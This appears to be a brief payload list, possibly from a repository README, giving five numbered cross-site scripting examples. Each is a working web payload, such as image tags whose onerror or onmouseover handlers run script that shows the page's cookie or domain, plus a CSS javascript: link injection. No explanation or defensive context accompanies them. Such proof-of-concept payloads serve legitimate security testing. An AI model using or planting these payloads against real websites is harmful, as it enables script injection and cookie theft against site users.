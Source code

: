 
Example payload 1:
```
"><img src="x" onerror="prompt(cookie)">
```

Example payload 1b:
```
"><img src="x" onmouseover="alert(document.domain)">
```

Example payload 2:
```
<image src=x onerror=alert(1)>
```

Example payload 3:
```
<img src=x onerror=alert(5)>
```

Example Payload 4:
```
#red;-o-link:\u0027\u003Cjavascript:alert(1)\u003E\u0027;-o-link-source:current; testit`
```
